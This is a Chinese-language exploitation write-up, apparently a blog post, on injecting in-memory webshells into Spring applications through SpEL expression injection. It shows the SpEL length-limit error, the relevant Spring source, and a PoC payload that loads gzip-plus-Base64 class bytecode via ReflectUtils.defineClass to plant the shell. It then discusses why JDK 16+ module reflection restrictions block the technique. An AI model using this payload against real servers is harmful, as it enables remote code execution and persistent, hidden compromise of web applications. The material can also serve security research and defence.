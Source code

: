 当我还默认以为可以直接使用 JMG 生成 SPEL 格式的内存马注入 payload 直接注入时发现一个异常：  
```
org.springframework.expression.spel.SpelEvaluationException: EL1079E: SpEL expression is too long, exceeding the threshold of '10,000' characters
```  
  
异常抛出的原因是 SpEL 的 payload 字符串长度超过了 10,000：Issue #30380 ·  Make maximum SpEL expression length configurable)[https://github.com/spring-projects/spring-framework/issues/30380]，该值可以通过反射修改，缺点需要打两次请求。  
  
**org.springframework.expression.spel.ast.OperatorMatches#checkRegexLength**  
```
    private void checkRegexLength(String regex) {
        if (regex.length() > 1000) {
            throw new SpelEvaluationException(this.getStartPosition(), SpelMessage.MAX_REGEX_LENGTH_EXCEEDED, new Object[]{1000});
        }
    }
```  
  
通过观察 JMG 的 payload 我们可以看到，其中恶意字节码是直接使用 Base64 编码的。众所周知，class 文件经过一次 Base64 编码会使得恶意字节码字符串大小增加，这个时候我们可以考虑使用 gzip 先压缩 class 文件，接着再套一层 Base64 编码，这样可以大大缩小 SpEL 表达式的长度。  
  
**gzip + Base64 编码的 PoC**  
```
toString(getValue(parseRaw(org.springframework.expression.spel.standard.SpelExpressionParser.new(),"T(org.springframework.cglib.core.ReflectUtils).defineClass('Calc',T(org.apache.commons.io.IOUtils).toByteArray(new java.util.zip.GZIPInputStream(new java.io.ByteArrayInputStream(T(org.springframework.util.Base64Utils).decodeFromString('gzip + Base64')))),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()")))
```  
  
这样即可直接完成内存马的注入。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vlekRjgqic0exB4eGsmEK5her4xibskb0ZVCa90KQnAqEj8Kia9KicSOVBYSnGkVofT6zcLheYyOVjnDK9WmKLZXBg/640?wx_fmt=png&from=appmsg "")  
### JDK 16 以上的反射限制绕过  
  
文章到此依然没能完成对于高版本的反射限制，这里笔者发现，JMG 默认的反射操作是使用   
ReflectUtils  
 的方法，在代码执行的一开始就会直接开始触发反射限制，笔者经过多种嵌套尝试都无法绕过。**上文的 SpEL 方法适用版本止步于 JDK 15，JDK 16+ 的利用还要寄希望于绕过反射限制**  
。  
多次注入后一直会出现报错   
module java.base does not "opens java.lang" to unnamed module  
，而且即使将绕过代码添加进入注入器或者内存马内都依然出现此异常。  
  
**多次调试后发现，是来源于 ReflectUtils 反射操作的限制。也就说，只要绕过了这里的 setAccessible(true) ，本漏洞的利用即可完成 bypass JDK16+ 的反射限制，从而完成更高版本的内存马注入。**  
```
org.springframework.cglib.core.ReflectUtils#defineClass(java.lang.String,byte[],java.lang.ClassLoader, java.security.ProtectionDomain, java.lang.Class<?>)
```  
  
‍![](https://mmbiz.qpic.cn/mmbiz_png/vlekRjgqic0exB4eGsmEK5her4xibskb0ZibWVBPE42ETH54ZS8fEbFzaID7zd38oLI0icjaqaPMzddxmlfA2mGDicw/640?wx_fmt=png&from=appmsg "")  
  
  
然而，笔者一开始实际上一直没有发现问题可能出现在这里，在初期尝试的时候一直认为类似 module java.base does not "opens java.lang" to unnamed module 的报错是发生在 JMG Jetty 内存马加载的过程中的（②），而不是一开始的类加载 注入器 的过程中（①）。  
  